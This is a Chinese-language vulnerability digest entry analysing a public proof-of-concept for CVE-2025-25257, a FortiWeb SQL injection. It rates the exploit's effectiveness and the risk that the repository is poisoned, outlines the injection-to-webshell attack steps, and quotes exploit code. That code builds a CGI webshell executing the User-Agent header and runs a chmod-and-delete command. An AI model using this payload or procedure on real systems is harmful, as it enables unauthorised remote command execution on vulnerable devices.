 ## CVE-2025-25257-FortiWeb-SQL注入

**漏洞编号:** CVE-2025-25257

**漏洞类型:** SQL注入

**影响应用:** FortiWeb

**危害等级:** 高危，允许未经身份验证的攻击者执行任意SQL命令，可能导致远程代码执行

**影响版本:** 6.3.0 to 6.3.5, 6.2.0 to 6.2.6

**利用条件:** 需要网络访问FortiWeb GUI界面

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

根据搜索结果和提供的漏洞利用代码，CVE-2025-25257是FortiWeb中的一个未经身份验证的SQL注入漏洞。攻击者可以通过构造恶意的SQL语句，在受影响的FortiWeb设备上执行任意SQL命令，最终可能导致远程代码执行（RCE）。

**有效性分析：**

提供的POC代码 `exp.py` 尝试利用SQL注入漏洞，通过修改HTTP请求头中的 `Authorization` 字段，向 `/api/fabric/device/status` API端点注入SQL代码。代码中包含利用该漏洞上传webshell，执行系统命令的尝试。根据搜索结果，已经有公开的PoC可以实现RCE，因此该POC具有较高的有效性。

**投毒风险分析：**

`README.md` 文件指示从GitHub Releases下载必要文件，这存在一定的风险。虽然代码本身（`exp.py`）看起来是利用SQL注入漏洞，但是不排除在releases中放置恶意编译文件或者脚本。

代码片段`exp.py` 中存在对webshell的上传，以及对文件权限修改的操作。
```python
        self._chmod_file = ""
        self._chmod_file += "import os # \r\n"
        self._chmod_file += "os.system('chmod +x /migadmin/cgi-bin/x.cgi && rm -f /var/log/lib/python3.10/pylab.py') #"

        self._webshell = ''
        self._webshell += '#!/bin/sh -- \r\n'
        self._webshell += 'printf "Content-Type: text/html\\r\\n";printf "\\r\\n";eval $HTTP_USER_AGENT'
```
攻击者可能利用此webshell进行后渗透，或进行数据窃取等恶意行为。

综合分析，投毒风险的评估如下：
* 高度依赖用户下载 release 里的内容，如果用户只关注代码，风险较低。
* `exp.py` 代码本身包含webshell上传，以及修改文件权限，在利用成功后，可能成为后门。这部分是否是作者植入的恶意代码难以区分。

因此，评估存在 10% 的投毒风险，主要集中在GitHub Release可能包含的恶意文件，以及成功利用后的webshell可能被滥用。

**利用方式分析：**

1.  **确定目标：** 确定要攻击的FortiWeb设备的IP地址。
2.  **构造恶意SQL注入：** 修改HTTP请求头中的 `Authorization` 字段，向 `/api/fabric/device/status` API端点注入SQL代码。注入的SQL代码旨在执行系统命令，例如上传webshell和修改文件权限。
3.  **上传Webshell：** 利用SQL注入漏洞，将webshell上传到服务器。  根据代码，webshell的内容是通过`HTTP_USER_AGENT`传递的命令，并由shell执行。
4.  **执行任意命令：** 通过访问上传的webshell，利用`HTTP_USER_AGENT`传递恶意代码，从而在服务器上执行任意命令，实现远程代码执行。

**项目地址:** [mtjanus106/CVE-2025-25257](https://github.com/mtjanus106/CVE-2025-25257)

**漏洞详情:** [CVE-2025-25257](https://nvd.nist.gov/vuln/detail/CVE-2025-25257)